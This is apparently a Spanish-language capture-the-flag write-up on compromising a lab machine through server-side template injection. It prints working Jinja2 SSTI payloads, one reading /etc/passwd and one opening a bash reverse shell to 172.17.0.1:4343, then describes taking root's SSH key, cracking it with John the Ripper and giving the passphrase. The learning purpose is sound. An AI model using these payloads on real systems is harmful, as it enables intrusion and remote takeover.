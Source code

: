 
Lo primero es hacer un escaneo de puertos y servicios con nmap.
![[Pasted image 20240811202559.png]]
Haciendo fuzzing web con gobuster no encuentro nada.
![[Pasted image 20240811203136.png]]
Accedo al servicio web pero por el puerto 80 solo me muestra el index por defecto de apache, sin embargo si entro por el puerto 8089 me muestra lo siguiente.
![[Pasted image 20240811203246.png]]
Si doy al Enter, veo lo siguiente.
![[Pasted image 20240811203548.png]]
Voy a probar a ver si es posible que la web sea vulnerable a SSTI(Server Site Template Injection).
![[Pasted image 20240811203657.png]]
![[Pasted image 20240811203706.png]]
Puedo inyectar código html, por lo que con la etiqueta script puedo ejecutar código javascript.
con el siguiente comando voy a poder obtener el contenido del archivo /etc/passwd para obtener los usuarios del sistema.
Si busco en el navegador información para poder atacar esta vulnerabilidad encuentro diferentes formas de explotar la vulnerabilidad en la web de [HackTrics](https://book.hacktricks.xyz/v/es/pentesting-web/ssti-server-side-template-injection) como el siguiente comando.
```javascript
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('cat /etc/passwd').read() }}
```
![[Pasted image 20240811204408.png]]
Voy a intentar recibir una reverse shell introduciendo el siguiente comando.
```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/4343 0>&1\'').read() }}
```
![[Pasted image 20240811210104.png]]
Ahora toca intentar escalar privilegios.
Con ayuda del siguiente binario, puedo obtener la clave privada de ssh de root y utilizarla para conectarme a través del protocolo ssh como root a la máquina.
![[Pasted image 20240811210928.png]]
Copio el contenido en un archivo que creo llamado id_rsa, y con john the ripper puedo crackear el contenido.
![[Pasted image 20240811212229.png]]
Ahora ya solo falta iniciar sesión como root a través del protocolo ssh pero utilizando el archivo id_rsa con el parámetro -i y como contraseña honda1.

